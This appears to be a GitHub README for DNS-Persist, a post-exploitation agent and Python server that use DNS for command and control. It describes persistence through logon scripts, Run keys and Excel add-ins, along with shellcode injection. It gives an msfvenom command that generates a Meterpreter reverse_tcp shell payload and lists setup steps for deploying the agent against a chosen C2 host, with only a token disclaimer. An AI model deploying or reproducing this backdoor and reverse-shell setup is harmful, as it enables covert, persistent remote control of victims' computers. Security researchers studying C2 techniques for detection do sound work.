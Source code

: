 # DNS-Persist
DNS-Persist is a post-exploitation agent which uses DNS for command and control. The server-side code is in Python and the agent is coded in C++. This is the first version, more features and improvements will be made in the future.

## Getting Started
### Author
0x09AL - https://twitter.com/0x09al
### Disclaimer
DO NOT USE THIS SOFTWARE FOR ILLEGALL PURPOSES.

THE AUTHOR DOES NOT KEEP ANY RESPONSIBILITY FOR ANY MISUSE OF THE CODE PROVIDED HERE.

## Did I reinvent the wheel ?
There are a lot of great work on DNS C2 but I created this software to be more focused on the persistence part. I'm no expert in C++ and this is my first "real program" in C++ (so expect some cringe worthy code). 

Suggestions about features and improvements are open.

## Architecture

This software is splitted in 2 - parts.
1. DNS server
2. Agent

![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-5.png "Architecture")

## Features
### Persistence mechanisms
This version has only 3 persistence mechanisms. More will be added later.
1. LogonScript persistence.
2. RunKey persistence.
3. Excel Addin persistence.

### Shellcode Injection
This version supports injection of 32-bit shellcode. The shellcode gets executed in a new thread in the same process, so crashing shellcode or invalid one will also crash the agent. Avoid NULL bytes on the shellcode.

#### Shellcode generation example
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=port EXITFUNC=thread -b "\x00" -f hex -o /tmp/shellcode.hex
```

## TODO LIST
1. Add encryption.  **This version does not have any encryption so take your own risks when using it.**
2. Add more persistence mechanisms.
3. Agent in different programming languages.

## Installation & Usage
### Server side
```
pip install dnslib
git clone https://github.com/0x09AL/DNS-Persist
python server.py
```
By default a DNS server on port 53 will be started. You can change that on the server.py file.

### Agent
I used Visual Studio 2010 to code the agent so importing and compiling it should be fairly easy.

Keep in mind to change the HOST variable in Declarations.h, to match your DNS server IP. 

I did it this way because you do not need to buy a domain name.

```
#define HOST XXX.xxx.XXX.xxx
```

## Screenshots
1. Picture-1
![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-1.png "Picture-1")

2. Picture-2
![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-2.png "Picture-2")

3. Picture-3
![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-3.png "Picture-3")

4. Picture-4
![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-4.png "Picture-4")

5. Picture-5
![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-5.png "Picture-5")

